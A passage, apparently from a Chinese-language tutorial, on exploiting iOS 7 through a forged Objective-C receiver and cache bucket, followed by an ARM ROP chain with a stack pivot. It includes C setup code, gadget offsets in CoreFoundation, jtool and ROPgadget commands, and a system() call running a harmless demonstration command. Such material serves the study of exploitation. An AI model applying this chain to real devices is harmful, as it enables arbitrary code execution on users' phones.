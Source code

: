 &emsp;&emsp;首先，通过NSSelectorFromString()这个系统自带的API获取release的地址。

&emsp;&emsp;然后构建一个假的receiver，假的receiver里有一个指向假的objc_class的指针，假的objc_class里又保存了假的cache_buckets的指针和mask。假的cache_buckets的指针最终指向将要伪造的selector和selector函数的地址。这个伪造的函数地址就是要执行的ROP链的起始地址。

```
hs->fake_objc_class_ptr = &hs->fake_objc_class;
hs->fake_objc_class.cache_buckets_ptr = &hs->fake_cache_bucket;
hs->fake_objc_class.cache_bucket_mask = 0;
hs->fake_cache_bucket.cached_sel = (void*) NSSelectorFromString(@"release");
hs->fake_cache_bucket.cached_function = start address of ROP chain
```

&emsp;&emsp;这样就控制pc执行以及$r0寄存器，接下来还得使用ROP来执行自己想要执行的shellcode。虽然program image，library，堆和栈等都是随机，但是dyld_shared_cache这个共享缓存的地址开机后是固定的，并且每个进程的dyld_shared_cache都是相同的。这个dyld_shared_cache有好几百M大，基本上可以满足我们对gadgets的需求。因此只要在自己的进程获取dyld_shared_cache的基址就能够计算出目标进程gadgets的位置。

&emsp;&emsp;dyld_shared_cache文件一般保存在/System/Library/Caches/com.apple.dyld/这个目录下。首先使用jtool从cahe文件中提取CoreFoundation这个framework,生成dyld_shared_cache_armv7.CoreFoundation。

```
jtool -extract CoreFoundation ./dyld_shared_cache_armv7
```
&emsp;&emsp;然后用ROPgadget这个工具来搜索gadget了。如果是arm32位的话，记得加上thumb模式，不然默认是按照arm模式搜索的，gadget会少很多：
```
ROPgadget --binary ./dyld_shared_cache_armv7.CoreFoundation --rawArch=arm --rawMode=thumb
```
&emsp;&emsp;接下来需要找到一个用来做stack pivot的gadget，刚开始只控制了有限的几个寄存器，并且栈指针指向的地址也不是可以控制的，如果想控制更多的寄存器并且持续控制pc的话，就需要使用stack pivot gadget将栈指针指向一段可以控制的内存地址，然后利用pop指令来控制更多的寄存器以及PC。另一点要注意的是，如果想使用thumb指令，就需要给跳转地址1，因为arm CPU是通过最低位来判断是thumb指令还是arm指令的。在iphone4s 7.1.1上找到的stack pivot gadgets如下：
```
/*
     __text:2D3B7F78                 MOV             SP, R4
     __text:2D3B7F7A                 POP.W           {R8,R10}
     __text:2D3B7F7E                 POP             {R4-R7,PC}
*/
 
hs->stack_pivot= CoreFoundation_base + 0x4f78 + 1;
NSLog(@"hs->stack_pivot  = 0x%08x", (uint32_t)(CoreFoundation_base + 0x4f78));
```

&emsp;&emsp;进行stack pivot需要控制r4寄存器，最开始只能控制r0，因此先找一个gadget把r0的值赋给r4，然后再调用stack pivot gadget：
```
 /*
     __text:2d4510ee         mov        r4, r0
     __text:2d4510f0         ldr        r1, [r4, #0x58]
     __text:2d4510f2         cbz        r1, 0x2d451100
     
     __text:2d4510f4         ldr        r0, [r4, #0x4c]
     __text:2d4510f6         blx        r1
*/
hs->fake_cache_bucket.cached_function = CoreFoundation_base + 0x0009e0ee + 1; //fake_struct.stack_pivot_ptr
NSLog(@"hs->fake_cache_bucket.cached_function  = 0x%08x", (uint32_t)(CoreFoundation_base+0x0009e0ee));
```
&emsp;&emsp;经过stack pivot后，控制了栈和其他的寄存器，随后就可以调用想要执行的函数了，比如说用system指令执行”touch /tmp/iceandfire”。当然也需要找到相应的gadget，并且在栈上对应的正确地址上放入相应寄存器的值：
```
 /*
     __text:2d486842         mov        r0, r4
     __text:2d486844         mov        r1, r5
     __text:2d486846         blx        r6
*/
strcpy(hs->command, "touch /tmp/ iceandfire");
hs->r4=(uint32_t)&hs->command;
hs->r6=(void *)dlsym(RTLD_DEFAULT, "system");
hs->pc = CoreFoundation_base+0xd3842+1;
```
